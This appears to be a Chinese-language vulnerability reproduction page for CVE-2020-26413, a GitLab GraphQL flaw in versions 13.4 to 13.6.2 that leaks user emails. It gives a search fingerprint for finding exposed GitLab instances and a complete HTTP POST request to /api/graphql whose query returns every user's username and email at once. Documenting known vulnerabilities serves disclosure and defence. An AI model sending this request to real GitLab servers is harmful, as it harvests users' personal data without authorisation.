 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

<a-checkbox checked>GitLab 13.4 - 13.6.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GitLab"</a-checkbox></br>

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告

<a-alert type="success" message="https://gitlab.com/gitlab-org/gitlab/-/issues/244275" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/gitlab-1.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

<a-alert type="success" message="访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/gitlab-2.png)



Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱



![img](../../../.vuepress/public/img/gitlab-3.png)



发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host:
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![img](../../../.vuepress/public/img/gitlab-4.png)



成功返回数据，造成 Gitlab的用户邮箱信息泄露

